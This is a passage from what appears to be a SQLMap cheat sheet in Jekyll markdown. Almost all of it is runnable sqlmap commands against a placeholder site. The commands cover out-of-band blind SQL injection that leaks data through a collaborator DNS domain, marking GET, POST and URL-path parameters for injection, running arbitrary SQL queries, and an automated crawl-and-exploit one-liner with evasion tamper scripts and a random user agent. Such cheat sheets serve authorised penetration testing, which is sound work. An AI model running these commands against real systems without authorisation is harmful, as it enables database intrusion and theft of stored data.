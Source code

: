 
### SQLMap Blind SQLi Out of Band (OOB) 

{% highlight bash %}

sqlmap -u “https://highon.coffee/?espresso=*” --dns-domain=$your-collab-url

{% endhighlight %}

### SQLMap GET Parameter 

The following specifies the GET parameter “espresso” for injection: 

{% highlight bash %}

sqlmap -u “https://highon.coffee/?espresso=*” -p espresso 

{% endhighlight %}

### SQLMap POST Parameter

The following specifies the POST parameter “espresso” for injection: 

{% highlight bash %}

sqlmap -u “https://highon.coffee/?espresso=*” --data “espresso=*” 

{% endhighlight %}

### Run SQL Queries 

You can run a SQL query using --sql-query for example: 

{% highlight bash %}

sqlmap -u highon.coffee -D $database-name --sql-query="SELECT * FROM $table;"

{% endhighlight %}

### URL Parameters in Friendly URL’s

Simply mark them with an asterisk(*), for example: 

{% highlight bash %}

https://highon.coffee/foo/bar/parameter1*/value1 

{% endhighlight %}

The above would set the injection point at parameter1.  

### SQLMap Crawl & Exploit 

Useful for automation, however please be mindful of the overheads you are imposing on the target server: 

{% highlight bash %}

python3 sqlmap.py --crawl=5 --threads=5 --risk=3 --level=5 --batch --answers="keep testing=Y,sitemap=Y,skip further tests=N" --crawl-exclude="logout" --forms --tamper=apostrophemask,apostrophenullencode,randomcase --dns-domain=$your-collab-url --random-agent -u https://highon.coffee

{% endhighlight %}
